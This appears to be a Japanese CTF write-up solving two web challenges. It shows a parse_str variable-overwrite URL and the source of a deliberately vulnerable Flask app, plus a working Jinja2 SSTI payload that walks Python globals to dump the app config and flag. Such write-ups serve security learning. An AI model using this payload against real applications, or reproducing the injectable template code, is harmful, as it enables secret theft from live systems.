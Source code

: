 GET パラメータが `parse_str` で変数として展開されています。`$user` と `$pass` が空であれば `$hashed_password` には何も代入されないので、`/?action=auth&hashed_password=c019f6e5cd8aa0bbbcc6e994a54c757e` にアクセスするとフラグが表示されました。

```
TWCTF{d0_n0t_use_parse_str_without_result_param}
```

## [Web 190] Shrine

> shrine は日本語で神社です。
> http://shrine.chal.ctf.westerns.tokyo/

```python
import flask
import os


app = flask.Flask(__name__)
app.config['FLAG'] = os.environ.pop('FLAG')

@app.route('/')
def index():
    return open(__file__).read()

@app.route('/shrine/<path:shrine>')
def shrine(shrine):
    def safe_jinja(s):
        s = s.replace('(', '').replace(')', '')
        blacklist = ['config', 'self']
        return ''.join(['{% raw %}{{{% endraw %}% set {}=None%}}'.format(c) for c in blacklist])+s
    return flask.render_template_string(safe_jinja(shrine))

if __name__ == '__main__':
    app.run(debug=True)
```

SSTI ができそうですが、`(` と `)` が消されており [Exploring SSTI in Flask/Jinja2, Part II](https://nvisium.com/blog/2016/03/11/exploring-ssti-in-flask-jinja2-part-ii.html) のように関数を呼ぶことができなさそうです。`config` や環境変数などを読むことができないか試してみましょう。

このスコープから参照できる `request` から `__class__`、そのメソッドである `__init__` からグローバル名前空間である `__globals__` を参照し…といった手順で辿っていくと、`{% raw %}{{{% endraw %} request.__class__.__init__.__globals__['_run_wsgi_app'].__globals__['sys'].modules['app'].index.__globals__['app'].config }}` で以下のように `config` を得ることができました。

```
<Config {'ENV': 'production', 'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SECRET_KEY': None, 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(days=31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'session', 'SESSION_COOKIE_DOMAIN': None, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(seconds=43200), 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'JSON_AS_ASCII': True, 'JSON_SORT_KEYS': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'JSONIFY_MIMETYPE': 'application/json', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093, 'FLAG': 'TWCTF{pray_f0r_sacred_jinja2}'}>
```
